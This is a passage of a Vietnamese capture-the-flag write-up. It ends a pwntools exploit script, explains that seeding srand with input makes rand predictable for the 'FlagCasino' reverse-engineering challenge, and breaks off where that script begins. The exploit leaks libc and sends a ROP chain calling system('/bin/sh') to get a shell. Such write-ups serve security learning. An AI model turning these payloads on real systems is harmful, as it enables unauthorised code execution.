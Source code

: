 log.info(f"lb: {hex(libc.address)}")


payload_get_shell = b'a'*0x28 + p64(pop_rdi+exe.address)
payload_get_shell += p64(next(libc.search(b'/bin/sh\x00')))
payload_get_shell += p64(pop_rdi+exe.address+1)
payload_get_shell += p64(libc.sym.system)
payload_get_shell += p64(sub_rsp + exe.address)
input()
p.sendafter(b'Enter details: ',payload_get_shell)

p.interactive()
```


-------

24 . Lesson (basic pwn)
------

- bài này chỉ hỏi cái cơ bản nên bỏ qua 


--------


25 . FlagCasino (rev)
-----

- bài này liên quan đến hàm srand() trong C 


ta thấy được nó sẽ có 1 vòng lặp 30 lần , nó lấy kí tự mà ta nhập vào làm seed cho srand()  , xong nó check xem số dc tạo ngẫu nhiên đó có bằng check[i] không 

```
rand()là một trình tạo số ngẫu nhiên có thể dự đoán được—gọi srand(x)theo sau rand()sẽ luôn tạo ra cùng một kết quả cho một hạt giống nhất định.
```
![image](https://hackmd.io/_uploads/ry_U1C1G1e.png)


check[i] sẽ là cái mớ này

![image](https://hackmd.io/_uploads/r1Xel0JMyg.png)


vậy ý tưởng của ta sẽ là , vì Format Specifiers của ta sẽ là %c nên ta có thể giới hạn nó từ 1-256 , vậy ta sẽ tạo 1 dic trong python để giữ giá trị của rand() , tiếp theo là lấy từng giá trị trong check , xong sẽ lấy giá trị để truy xuất cái input

ta có thể code C hoặc python , trong python  có thư viện ctypes hỗ trợ


script sẽ như sau : 


```
#!/usr/bin/python3
